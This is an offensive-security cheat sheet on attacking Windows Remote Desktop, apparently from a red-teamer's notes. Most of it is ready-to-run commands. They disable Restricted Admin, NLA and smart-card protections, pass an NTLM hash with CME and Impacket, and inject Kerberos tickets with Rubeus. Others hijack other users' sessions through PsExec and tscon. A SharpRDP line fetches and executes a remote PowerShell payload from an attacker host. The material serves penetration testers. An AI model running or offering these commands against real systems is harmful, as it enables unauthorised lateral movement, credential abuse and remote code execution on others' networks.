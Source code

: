 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP

* [https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)




## Enable RDP

With meterpreter:

```
meterpreter > run getgui -e
```

With PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```

Manually add firewall rule (if necessary):

```
Cmd > netsh advfirewall firewall add rule name="Allow Remote Desktop" dir=in protocol=TCP localport=3389 action=allow
PS > New-NetFirewallRule -DisplayName 'Allow Remote Desktop' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('3389')
```




## Restricted Admin

* [https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [https://blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [https://labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [https://shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)
* [https://github.com/GhostPack/RestrictedAdmin](https://github.com/GhostPack/RestrictedAdmin)
* [https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/](https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

RDP with [PtH](http://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/): RDP needs a plaintext password unless Restricted Admin mode is enabled.

Check / enable / disable with PowerShell:

```
PS > Get-ChildItem "HKLM:\System\CurrentControlSet\Control\Lsa" -Recurse
PS > Get-Item "HKLM:\System\CurrentControlSet\Control\Lsa"
PS > New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
PS > Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 1
PS > Remove-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin"
```

Check / enable / disable with Impacket:

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -s
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 1
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 delete -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
```

Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Usage:

```
$ xfreerdp /pth ...
Cmd > mstsc.exe /restrictedAdmin ...
```




## Remote Credential Guard

- [https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard)
- [https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/](https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

```
Cmd > ksetup /addkdc MEGACORP.LOCAL dc01.megacorp.local
Cmd > ksetup /setrealmflags MEGACORP.LOCAL tcpsupported
Cmd > shutdown -r -t 0
Cmd > Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:dc01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /service:TERMSRV/PC01.megacorp.local,CIFS/PC01.megacorp.local,HOST/PC01.megacorp.local /domain:megacorp.local /dc:dc01.megacorp.local /nowrap /ptt
Cmd > mstsc.exe /remoteGuard ...
```




## Smart Card Authentication

Disable enforced smart card authentication during interactive logon:

```
PS > Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption"
PS > Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption" -Value 0
```



### Emulating PIV

- [https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/)
- [https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
- [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
- [https://twitter.com/snovvcrash/status/1561020682242326528](https://twitter.com/snovvcrash/status/1561020682242326528)




## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## Hijack RDP Sessions

- [http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
- [https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
- [https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/](https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/)

Run Task manager as LocalSystem to hijack other users' sessions:

```
PS > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe -accepteula
```

The same can be achieved with `tscon.exe`:

```
PS > .\PsExec64.exe -s \\localhost cmd
PS > quser.exe
PS > cmd /k tscon.exe <ID> /dest:<CURRENT_SESSIONNAME>
```



### Tools

- [https://github.com/fortra/impacket/blob/master/examples/tstool.py](https://github.com/fortra/impacket/blob/master/examples/tstool.py)
- [https://github.com/netero1010/RDPHijack-BOF](https://github.com/netero1010/RDPHijack-BOF)




## Tools



### SharpRDP

- [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
- [https://github.com/S3cur3Th1sSh1t/SharpRDP](https://github.com/S3cur3Th1sSh1t/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```



### SharpRDPHijack

- [https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)



### TakeMyRDP

- [https://github.com/TheD1rkMtr/TakeMyRDP](https://github.com/TheD1rkMtr/TakeMyRDP)
- [https://github.com/nocerainfosec/TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)
